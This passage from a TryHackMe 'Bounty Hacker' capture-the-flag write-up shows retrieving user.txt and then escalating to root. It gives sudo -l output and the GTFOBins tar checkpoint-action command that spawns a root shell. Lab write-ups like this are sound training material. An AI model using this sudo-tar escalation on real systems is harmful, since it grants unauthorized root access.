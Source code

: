 ```
```
##### 6. user.txt
Finding `user.txt` can be done easily enough

`ls` >> cat `user.txt`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Bounty%20Hacker/images/user.png?raw=true)


##### 7. root.txt

On to `root.txt` then. First we need to determine what folders and commands does the user `lin` have access to what we can run with `sudo` permission. To find this out we can run: `sudo -l`

```
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
Now that we have determined that we can access to `user.txt`, lets see how we can abuse this feature on: [GTFOBins](https://gtfobins.github.io/).
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Bounty%20Hacker/images/tar.png)
<br>

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Bounty%20Hacker/images/tar2.png)
Now let's run it against the root user: `tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`